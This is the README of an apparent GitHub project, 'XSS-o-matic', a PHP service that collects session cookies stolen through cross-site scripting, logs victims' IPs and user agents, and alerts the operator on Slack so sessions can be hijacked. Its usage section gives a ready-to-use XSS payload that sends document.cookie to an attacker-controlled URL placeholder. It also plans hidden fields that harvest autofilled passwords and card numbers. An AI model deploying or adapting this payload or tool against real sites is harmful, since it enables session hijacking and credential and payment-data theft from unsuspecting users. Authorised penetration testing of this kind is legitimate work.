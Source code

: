 # XSS-o-matic
Recieve Real-Time Slack (or other) Notifications for When Session Cookies are Captured via Stored and Reflected Cross Site Scripting (XSS)

# Description
This is another API, similar to my Phishing API, except this one aids in Session Hijacking when HTML Injection/XSS is discovered on a page.  This was born out of a need to do more than the standard JavaScript alert box.  I needed a simple one-liner my team could use whenever they encountered Cross Site Scripting and I needed to act quickly via real-time notifications while the user's session was still valid.  For this to fully work properly, HttpOnly flags can't be set in the target site's cookies.  For those that aren't familiar with Session Hijacking, please read up on it from the OWASP page here : https://www.owasp.org/index.php/Session_hijacking_attack.  

TL-DR is that you can jump into a user's session without credentails to access authenticated areas of the web application.  There's a MySQL database which also captures a handful of other useful data, such as timestamps, IP addresses, User Agent strings, Hostnames, and Referer headers.

# Future Implementation Goals Include : 

Capturing Cross Domain Cookies

Hidden User/Pass/CC Fields for Auto Population

Ability to Read Local Storage if Available

Integrate into IFTTT for Alterting Options


# Initial Deployment
Just host the PHP files on a web server and import the SQL Dump to create the schema.

# Use
When XSS is discovered during an Application Security or Penetration Test, simply use `<img src=x onerror=this.src='https://YOUR-URL-HERE.com/XSS.php?project=YOUR-PROJECT-HERE&cookie='+document.cookie> height=1 width=1` or a similar payload.  You may need to modify based on filtering of course, but as long as you're posting data to that URI it should work!

Happy Hijacking!



![Slack Bot Notification](https://i.imgur.com/JLVGbhe.png)
